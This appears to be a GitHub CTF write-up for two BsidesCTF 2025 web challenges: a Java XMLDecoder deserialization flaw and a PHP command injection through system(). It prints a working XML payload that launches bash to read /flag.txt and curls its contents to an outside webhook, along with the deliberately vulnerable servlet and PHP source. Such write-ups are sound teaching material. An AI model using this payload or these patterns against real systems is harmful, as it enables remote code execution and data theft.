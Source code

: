 --------------------

### CTF-: BsidesCTF 2025

--------------------

![image](https://github.com/user-attachments/assets/5758bd60-e622-47de-9566-4e408ae2f6f7)

---------------------

### Challenges

----------------------

- Web-:
  - Dating
  - Detector

-----------------------

### Dating

-----------------------

![image](https://github.com/user-attachments/assets/a7046cc7-6849-408c-8aab-17124266f0a6)


-----------------------

- The challenge contains this java file `ProfileServlet.java`.

```java
package com.example.dragon;

import jakarta.servlet.ServletException;
import jakarta.servlet.annotation.WebServlet;
import jakarta.servlet.http.HttpServlet;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;

import java.beans.XMLDecoder;
import java.io.IOException;

@WebServlet("/ProfileServlet")
public class ProfileServlet extends HttpServlet {

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        response.setContentType("text/plain");

        try {
            XMLDecoder decoder = new XMLDecoder(request.getInputStream());
            Object dragonData = decoder.readObject();
            decoder.close();

            response.getWriter().write("Profile received for: " + dragonData.toString());
        } catch (Exception e) {
            response.getWriter().write("Error processing profile: " + e.getMessage());
        }
    }
}
```

- My eyes caught this  line `XMLDecoder decoder = new XMLDecoder(request.getInputStream());`.This class `XML Decoder` in java is vulnerable to `Insecure Deserialization` which can lead to RCE.A specially crafted XML payload can be used to invoke arbitrary java classes and methods to trigger RCE on the server.
- My Xml Payload-:

```xml
<java version="1.8.0" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <void index="0">
	<string>/bin/bash</string>
      </void>
      <void index="1">
	<string>-c</string>
      </void>
      <void index="2">
	      <string>cat /flag.txt | /usr/bin/curl https://www.postb.in/1745777549695-6946147335693 -d @-</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```

- The payload invokes class `java.lang.ProcessBuilder` which runs the `bash` binary with `-c` option to run a statement.Since I can't get an output, I interacted with a web hook with curl which serves the result of the executed command `cat /flag.txt` as `POST` data.

![image](https://github.com/user-attachments/assets/3cff1ab8-2554-4846-a2f9-c49bb10658f0)

- Web hook's result-:

![image](https://github.com/user-attachments/assets/5aa72db4-31a6-4dfb-93df-3a6c0470c2e5)

- Flag-:```CTF{helping-dragons-find-love-since-2025}```

---------------------------

### Detector

---------------------------

![image](https://github.com/user-attachments/assets/7ca325f0-6f4d-4ce1-aee3-8b6d826e2b80)

--------------------------

- It contains 2 source files `index.php` and `detect-dragon.php`.The vulnerable point is the `detect-dragon.php`.

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dragon Detector</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <div class="container">
<?php
  $ip = $_REQUEST['ip'];

  echo "<h1>";
  system("bash /app/dragon-detector-ai $ip");
  echo "</h1>";

  echo '<br><a href="/">Check another IP</a>';
?>
    </div>
</body>
</html>
```

- The vulnerable parameter is `$_REQUEST['ip']` because it gets passed unfiltered to a shell statement in `system()` and it is not news that `system()` is vulnerable to command injection.I closed the statement with `;` to execute a new command.

```php
<?php
  $ip = $_REQUEST['ip'];

  echo "<h1>";
  system("bash /app/dragon-detector-ai $ip");
  echo "</h1>";

  echo '<br><a href="/">Check another IP</a>';
?>
```

- Exploiting it by executing command `id`-:

![image](https://github.com/user-attachments/assets/1fbcab48-a4dd-4191-bd81-42470f7b2451)

- Flag-:```CTF{tharr-be-draggggons}```

![image](https://github.com/user-attachments/assets/8e721bc5-4867-4bdb-8723-6ca822365c4f)


--------------------

